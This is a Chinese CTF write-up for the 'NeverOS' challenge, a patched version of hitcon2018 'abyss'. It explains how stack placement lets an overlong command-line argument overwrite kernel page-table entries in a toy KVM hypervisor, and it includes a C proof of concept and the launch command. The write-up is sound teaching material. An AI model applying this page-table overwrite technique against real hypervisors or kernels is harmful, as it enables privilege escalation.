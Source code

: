 # NeverOS WP

hitcon2018-abyss的题目，补了原来的漏洞，其他没做任何修改。


### 漏洞点

1. 在hypervisor的setup_paging函数里，首先安装了这么的页表：

   ```c
   
   #define PS_LIMIT (0x200000)
   #define KERNEL_STACK_SIZE (0x4000)
   #define MAX_KERNEL_SIZE (PS_LIMIT - 0x5000 - KERNEL_STACK_SIZE)
   #define MEM_SIZE (PS_LIMIT * 0x10)
   
     uint64_t pml4_addr = MAX_KERNEL_SIZE;
     uint64_t *pml4 = (void*) (vm->mem + pml4_addr);
   
     uint64_t pdp_addr = pml4_addr + 0x1000;
     uint64_t *pdp = (void*) (vm->mem + pdp_addr);
   
     uint64_t pd_addr = pdp_addr + 0x1000;
     uint64_t *pd = (void*) (vm->mem + pd_addr);
   
     pml4[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pdp_addr;
     pdp[0] = PDE64_PRESENT | PDE64_RW | PDE64_USER | pd_addr;
     pd[0] = PDE64_PRESENT | PDE64_RW | PDE64_PS; /* kernel only, no PED64_USER */
   
     sregs.cr3 = pml4_addr;
     sregs.cr4 = CR4_PAE;
   ```

   PDE_PS标志位开启，说明其映射的是一个2M（0x200000）的页到0地址；这部分接下来会作为内核代码的起始地址。

   从这段代码我们可以看见，内核最大的大小只能是0x1f7000, 接下来的0x5000空间是给内核页表使用的。`0~0x1000是pml，0x1000~0x2000是pdp，0x2000~0x3000是pd`。

2. 然后在kvm_init里会调用setup_regs函数去初始化虚拟机运行的寄存器：

   ```c
   regs.rip = entry;
   regs.rsp = MAX_KERNEL_SIZE + KERNEL_STACK_SIZE; /* temporary stack */
   regs.rdi = PS_LIMIT; /* start of free pages */
   regs.rsi = MEM_SIZE - regs.rdi; /* total length of free pages */
   regs.rflags = 0x2;
   ```

   可以看见，RSP被设置成了MAX_KERNEL_SIZE + KERNEL_STACK_SIZE，也就是MAX_KERNEL_SIZE + 0x4000 (0x1f7000+0x4000=0x1fb000 )。

3. 然后在执行内核代码之前，会调用copy_argv将hypervisor程序的第3个之后的参数压栈：

   ```c
   copy_argv(vm, argc - 2, &argv[2]);
   ```
4. 然后内核初始化自己页表，调用init_pagetable函数:

```c
/* Maps
 *  0x8000000000 ~ 0x8002000000 -> 0 ~ 0x2000000
 */
void init_pagetable() {
  uint64_t* pml4;
  asm("mov %[pml4], cr3" : [pml4]"=r"(pml4));
  uint64_t* pdp = (uint64_t*) ((uint64_t) pml4 + 0x3000);
  pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; // 0x8000000000
  uint64_t* pd = (uint64_t*) ((uint64_t) pdp + 0x1000);
  pdp[0] = PDE64_PRESENT | PDE64_RW | (uint64_t) pd;
  for(uint64_t i = 0; i < 0x10; i++)
    pd[i] = PDE64_PRESENT | PDE64_RW | PDE64_PS | (i * KERNEL_PAGING_SIZE);
}
```

  `pml4[1]`代表这个1级页表所表示的空间从0x8000000000（1<<47）开始到（1<< 48）-1。

   然后可以看见  MAX_KERNEL_SIZE+0x3000（0x1fa000）的部分作为pml4的第1项，然后MAX_KERNEL_SIZE+0x4000（0x1fb000）的部分作为pml4第1项的pdp的第0项，也就是pd的起始地址。

   MAX_KERNEL_SIZE+0x4000刚好是内核栈的栈顶，也就是通过系统调用（参数压入内核栈），我们可以修改pdp的内容。

   所以，我们的目标是，添加一个页表的表项，设置其标识位，使得我们可以在用户态访问这个页表的虚拟地址，这个页表的虚拟地址被同样映射到了虚拟机的物理0地址，也就是内核的起始地址。

### 尝试

  有了思路之后，我们就开始尝试利用。

*1*    我们需要mmap一块空间，使其作为pdp的项，这个表项的内容是0x87，代表其映射的地址是物理地址0，其标识位的为`PDE64_PRESENT | PDE64_RW | PDE64_USER| PDE64_PS` 。也就是用户态可以访问这个高地址。

*2*    我们需要算出前面mmap地址所对应的内核物理地址，将这个物理地址 |   PDE64_PRESENT | PDE64_RW | PDE64_USER ，填入pdp中作为其中的一项。 （这里查找mmap物理地址的方法是查找内存中的magic number）

*3*    但是因为PIE的原因，这个内核物理地址会改变，因为需要做一定的喷射，增加命中概率。

*4*     计算表项的所对应的虚拟地址（内核空间），在用户空间修改其内容就可以修改内核。

然而经过多次的尝试，可以发现这样是不可能成功。 因为 ` pml4[1] = PDE64_PRESENT | PDE64_RW | (uint64_t) pdp; `代码限制了页表的内容是不可以被用户空间所访问的，所以改变0x3000到0x4000的页表并不会生效。

### 利用

 然后注意到很关键的一个点，就是`pml[0]中的pdp[0]的pd`我们是可以有机会修改的，只要我们能把栈往前推一个页面的大小。又因为hypervisor的命令行参数会被压入内核栈中，所以在hypervisor中加入一个页面大小的garbage参数就可以完成前面的利用效果。

  POC：

```c
#include <ctype.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <syscall.h>
#include <unistd.h>

//#define KERNEL_BASE ((char*)0xf740000000)
#define KERNEL_BASE ((char*)0x3b400000)  //hex((0xed0 >> 3)<< 21)
int main() {
  printf("Hello!\n");
  unsigned long edit = (long)KERNEL_BASE;
  char buf[22];
  syscall(0, 0, buf, 1, 0x87,0x87,0x87);
  *(long*)edit = 0xdeadbeef12345679;
  while(1){
    putchar(getchar());
    fflush(stdout);
  }
  return 0;
}
```

然后启动hypervisor:

```c
./hypervisor.elf kernel.bin ld.so ./user.elf `python -c 'print "a"*4096'`
```

### 最后

 感觉比赛的时候都没人仔细看这个题。

这个题的发现和利用需要做题人本身对操作系统中页表和地址转换的知识点比较熟悉。

感谢david942j在hitcon出了这么一个有趣的题目，让我学到了不少东西。

和操作系统搏斗比和libc搏斗有意思的多。 
